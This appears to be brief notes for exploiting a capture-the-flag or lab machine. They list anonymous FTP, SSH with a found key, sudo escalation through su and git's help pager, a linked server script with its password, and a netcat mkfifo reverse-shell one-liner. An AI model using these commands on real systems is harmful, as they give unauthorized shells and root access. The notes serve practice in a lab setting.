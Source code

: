 Production

**THIS BOX'S CHATTR IS A TROLL AND WHEN RUN KICKS YOU OFF OF IT. DON'T DO IT!**

`ftp ip` anonymous (same every time)

`ssh -i id_rsa ashu@ip`

CHANGE SSH KEY

`sudo -l` --> `sudo /usr/bin/su skidy`
`sudo -l` --> `sudo /usr/bin/git branch --help config` + `!/bin/bash`

Alternatite route:
`nc IP 9001`
https://github.com/5hyl0ck/junkfiles/blob/5a6e430d0f3eb296c60625652aeff1912b982de1/server1.py password is `yourmom!`

`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP PORT >/tmp/f`

`netstat -tulpn` then kill the one on port 9001
`chmod 0755 /home/skidy/homework/homework_project`
